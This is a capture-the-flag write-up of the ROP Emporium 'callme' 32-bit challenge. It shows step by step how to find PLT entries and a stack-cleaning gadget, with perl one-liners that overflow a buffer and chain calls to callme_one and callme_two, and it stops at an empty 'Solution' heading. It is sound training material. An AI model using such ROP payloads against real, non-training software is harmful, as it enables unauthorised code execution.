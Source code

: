 # callme
The challenge is available [here](https://ropemporium.com/challenge/callme.html).

## Black-Box Test
Let's start as usual with an initial check of the program's behavior.

```
./callme32
```
![](./0.png)

In this challenge as well, the return address is located at the same index.

```
perl -e 'print "A"x44 . "\xef\xbe\xad\xde"' | ./callme32
```
![](./1.png)
```
sudo dmesg -k | tail -2
```
![](./2.png)

Before we start exploring in more depth, let's check what the maximum input size we can enter is.

```
ltrace ./callme32
```
![](./3.png)

By entering simple input (in this case, `ABCD`) while running the program with `ltrace`, we discovered that the maximum input size we can enter is `512` bytes.

## In-depth research
It's time to note that the solution I am writing assumes that anyone reading it has already read the challenge instructions. So if any process seems strange, please refer to the instructions! :)

The goal of the challenge is to run `callme_one(0xdeadbeaf, 0xcafebabe, 0xd00df00d)`, `callme_two(0xdeadbeaf, 0xcafebabe, 0xd00df00d)`, and `callme_three(0xdeadbeaf, 0xcafebabe, 0xd00df00d)` in that order.

These functions will be imported from an external library, so during the symbol linking process, the `PLT` is involved.

Let's keep these points in mind and continue with the research we're already familiar with. First, we'll discover the functions that are written in the binary itself. (The NX protection exists in all of these challenges, and from now on, I won't mention it again)

```
rabin2 -qs callme32 | grep -ve 'imp' -e ' 0 ' -e '_'
```
![](./4.png)

We have a helper function called `usefulFunction`, just like in the previous challenge. We'll look at it later. For now, let's search for our three target functions. We can look for them in two places. The first is the `PLT`.

```
rabin2 -i callme32
```
![](./5.png)

The second is the `GOT.PLT` (again, I emphasize that anyone who hasn't read the challenge instructions should do so to understand the linkage process).

```
rabin2 -R callme32
```
![](./6.png)

To be sure where the functions reside (in both senses mentioned above), we can look at the memory segments by ranges and see the correspondence.

```
readelf -S callme32
```
![](./7.png)

Now, let's take a look at the helper function `usefulFunction` and try to understand how it will assist us and how this relates to the `PLT`.

```
gdb callme32
```
```
set disassembly-flavor intel
```
```
disass usefulFunction
```
![](./8.png)

In the constructed ROP chain, a malicious return to the `usefulFunction` itself won't be beneficial, as it does contain calls to the target functions, but not in the correct order and without the right parameters. Therefore, a malicious return to the call-command for them won't help either, since the call will return to the continuation of execution within `usefulFunction`. Thus, when we call the target functions, we'll use the corresponding address in the `PLT` (highlighted with a green line). Let's take a look at the appropriate entries in the `PLT` table.

```
x/3i 0x080484f0
```
```
x/3i 0x08048550
```
```
x/3i 0x080484e0
```
![](./9.png)

The addresses highlighted with a green line represent the appropriate entries in the `PLT` table. The addresses highlighted with a yellow line indicate the locations where the actual function addresses are located.

If we now look at the `GOT.PLT` (that is, at the addresses highlighted in yellow), we'll find that they have not yet been resolved (which makes sense, as we haven't called them at all yet).

```
x/wx 0x0804a018
```
```
x/wx 0x0804a030
```
```
x/wx 0x0804a014
```
![](./10.png)

The keen-eyed will notice that up to this point, we have essentially reached a complete explanation for the output of the commands `rabin2 -i callme32` and `rabin2 -R callme32` that were executed earlier during the research. The addresses in green correspond to the `PLT` and the addresses in yellow correspond to the `GOT.PLT`.

Now, let's try to build a ROP chain that will call the first function. Since we won't be using the `call` command, we also need to ensure that there's a return address from the first function on the stack.

Thus, the order will be as follows (from the top of the stack and down): 
* 44 bytes of garbage:
    * `"X"`x44
* the address of `callme_one` function via the `PLT`:
    * `0x080484f0`
* some arbitrary return address (currently just garbage):
    * `"YYYY"`
* followed by the first, second, and third parameters:
    * `0xdeadbeef`, `0xcafebabe`, `0xd00df00d`

So let's exit the debugger (with `q` command) and try the next ROP chain.

```
perl -e 'print "X"x44 . "\xf0\x84\x04\x08" . "YYYY" . "\xef\xbe\xad\xde" . "\xbe\xba\xfe\xca" . "\x0d\xf0\x0d\xd0" ' | ./callme32
```
![](./11.png)

```
sudo dmesg -k | tail -2
```
![](./12.png)

So, we've successfully executed the first function and verified that the return address to it is indeed in the place we thought (it fell at the end because `YYYY` isn't actually an address...). But now we're in trouble. How can we call the second function and pass it the parameters? If we replace `YYYY` with the address of the second function, we won't be able to pass it parameters without disrupting the parameters for the first function (a matter of stack positioning). 

To illustrate the problem, let's replace `YYYY` with the address of the function `callme_two` (`0x08048550` address) and run it.

```
perl -e 'print "X"x44 . "\xf0\x84\x04\x08" . "\x50\x85\x04\x08" . "\xef\xbe\xad\xde" . "\xbe\xba\xfe\xca" . "\x0d\xf0\x0d\xd0" ' | ./callme32
```
![](./13.png)

Therefore, what we really need to do is find a "gadget" that will clean the stack and perform a `ret`. This way, each function can "return to the gadget" that cleans the stack (which will increment the `SP` register by 12 bytes), allowing us to chain the function calls one after the other, so that the `ret` of the gadget will be what calls the next function.

To find the gadget, I used the tool [ropper](https://github.com/sashs/Ropper). This tool is also mentioned in the ROP_Emporium beginner's guide. In fact, this is the first time I've used it. After a bit of research, I found a suitable gadget.

```
python3 ~/ropper/Ropper.py 
```
```
file callme32
```
```
search /3/ pop %
```
![](./14.png)

The last gadget is perfect. Let's check if we can now chain calls to the two functions using the gadget. The structure will be as follows:
* 44 bytes of garbage:
    * `"X"`x44

AND

* the address of `callme_one` function via the `PLT`:
    * `0x080484f0`
* the address of the gadget:
    * `0x080487f9`
* the three parameters
    * `0xdeadbeef`, `0xcafebabe`, `0xd00df00d`

AND

* the address of `callme_two` function via the `PLT`:
    * `0x08048550`
* the address of the gadget:
    * `0x080487f9`
* the three parameters.
    * `0xdeadbeef`, `0xcafebabe`, `0xd00df00d`

So let's exit ropper (with the command `quit`) and try to build and execute the ROP chain using the following command:

```
perl -e 'print "X"x44 . "\xf0\x84\x04\x08" . "\xf9\x87\x04\x08" . "\xef\xbe\xad\xde" . "\xbe\xba\xfe\xca" . "\x0d\xf0\x0d\xd0" . "\x50\x85\x04\x08" . "\xf9\x87\x04\x08" . "\xef\xbe\xad\xde" . "\xbe\xba\xfe\xca" . "\x0d\xf0\x0d\xd0"' | ./callme32
```
![](./15.png)

We succeeded. Now we have everything we need for the complete solution (which is, of course, just to add the third function).

## Solution